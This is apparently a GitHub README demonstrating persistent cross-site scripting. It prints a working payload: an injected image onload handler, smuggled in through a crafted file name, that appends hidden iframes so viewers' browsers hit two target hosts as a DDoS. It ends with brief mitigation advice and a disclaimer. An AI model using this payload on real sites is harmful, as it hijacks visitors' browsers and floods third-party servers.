<p align="center">
  <img src="https://github.com/tukru/nohing/blob/main/17105451.jpeg" alt="XSS Vulnerability Demo Logo" width="200"/>
</p>

<h1 align="center">𖤐 Persistent Cross-Site Scripting (XSS) Vulnerability Demo 𖤐</h1>

<p align="center">
  <a href="https://www.gnu.org/licenses/"><img src="https://img.shields.io/badge/License-GNU-yellow.svg" alt="License: GNU"></a>
  <a href="https://jquery.com/"><img src="https://img.shields.io/badge/jQuery-%3E%3D%203.5.1-brightgreen" alt="jQuery Version"></a>
  <a href="https://github.com/tukru/Persistent-Cross-Site-Scripting"><img src="https://img.shields.io/badge/Repo-GitHub-blue" alt="GitHub Repository"></a>
</p>

<p align="center">
  This repository contains a professional demonstration of a persistent Cross-Site Scripting (XSS) vulnerability. It illustrates how an insecure image tag can be exploited to inject malicious JavaScript code into a web page, leading to potential security risks.
</p>

---

## 𖤐 Description

The code in this repository demonstrates a common security vulnerability known as persistent Cross-Site Scripting (XSS). By not properly validating or sanitizing user input, malicious code can be injected into a web page and executed by other users who view the affected page.

## 𖤐 Code Example

```html
<img src="/imagename.jpg" onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg');">
function ddos(url1, url2) {
  $("body").append("<iframe id='ifri_1523' style='display:none;' src='" + url1 + "'></iframe>");
  $("body").append("<iframe id='ifri_1524' style='display:none;' src='" + url2 + "'></iframe>");
}
```
𖤐 Methodologies and Tactics

The code leverages the onload event in an image tag to execute arbitrary JavaScript code once the image has finished loading. This code can be used to perform various malicious activities, such as launching a Distributed Denial of Service (DDoS) attack.

    Methodology: Persistent XSS attack
    Tactics: Utilizing insecure image tags, exploiting the lack of input validation and sanitization

𖤐 Proof of Concept (PoC)

The following steps outline how the persistent XSS vulnerability can be exploited:

  Inject Malicious Code: An attacker can upload an image with a specially crafted name that includes JavaScript code. For example, setting the image name to innocent.jpg" 

    onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg'); would generate the following HTML markup:

    <img src="/innocent.jpg" onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg');">

  Execute Arbitrary Script: Utilizing the onload event, the arbitrary script will be executed once the image has finished loading. This JavaScript code will run inside the browser of anyone who views the affected profile.

    Potential Impact: The injected code can be used to perform various malicious activities, such as launching DDoS attacks, stealing user data, or redirecting users to phishing sites.
    
𖤐 Mitigation

To prevent this vulnerability, proper input validation and sanitization should be implemented. Escaping special characters and using secure coding practices can help ensure that user input is handled safely.

𖤐 Disclaimer

This code is provided for educational and research purposes only. It demonstrates a known security vulnerability and should not be used maliciously or without proper authorization.

𖤐 License

This project is licensed under the GNU General Public License. See the LICENSE.md file for details.
<p align="center">
  Made with ❤️ and CHAOS by <a href="https://github.com/tukru">tukru</a>
</p>
